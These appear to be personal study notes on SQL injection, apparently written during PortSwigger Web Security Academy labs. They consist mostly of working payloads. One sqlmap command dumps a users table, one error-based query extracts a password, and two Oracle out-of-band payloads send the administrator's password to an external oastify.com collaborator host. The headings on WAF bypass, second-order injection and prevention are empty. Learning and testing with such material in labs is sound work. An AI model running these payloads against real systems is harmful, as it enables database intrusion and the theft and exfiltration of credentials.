

# SQLi

Created: May 21, 2025 8:49 PM



[SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)


```jsx
sqlmap -r sqlreq3 --param-filter='COOKIE' --skip='session' --technique='B' --string "Welcome" --level 2 --force-ssl -T users --dump --batch
```


```jsx
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

```jsx
x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://8qzq9us3dahth3d2nm0zkrvwrnxel49t.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

```jsx
x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.g7oyq29buiy1ybua4uh71zc48vem2dq2.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

### Using Hackvertor to bypass SQL WAF


## Second Order SQLi


## SQLi Prevention


